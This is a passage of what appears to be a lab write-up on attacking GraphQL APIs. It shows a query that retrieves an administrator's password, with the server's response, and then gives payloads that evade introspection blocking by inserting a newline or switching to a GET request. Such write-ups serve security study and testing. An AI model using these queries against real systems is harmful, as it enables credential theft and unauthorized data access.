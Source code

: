 ```
      }
    }
  }
}
```


Final query:

```
query {
  getUser (id:1) {
    id
    username
    password
  }
}

response :
HTTP/2 200 OK
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 133

{
  "data": {
    "getUser": {
      "id": 1,
      "username": "administrator",
      "password": "5sx5ykv9m970932638ew"
    }
  }
}

```


#### Finding a hidden GraphQL endpoint

> When introspection query is disabled, it is usually done by blocking `__schema` keyword using regex. We can try adding spaces, commas to test for a bypass.


As such, if the developer has only excluded `__schema{`, then the below introspection query would not be excluded.

```
#Introspection query with newline
{ "query": "query{__schema {queryType{name}}}" }`
```

It could also be possible that introspection is only disabled on `POST`, we can try other methods.

```
# Introspection probe as GET request 

GET /graphql?query=query%7B__schema%0A%7BqueryType%7Bname%7D%7D%7D
```
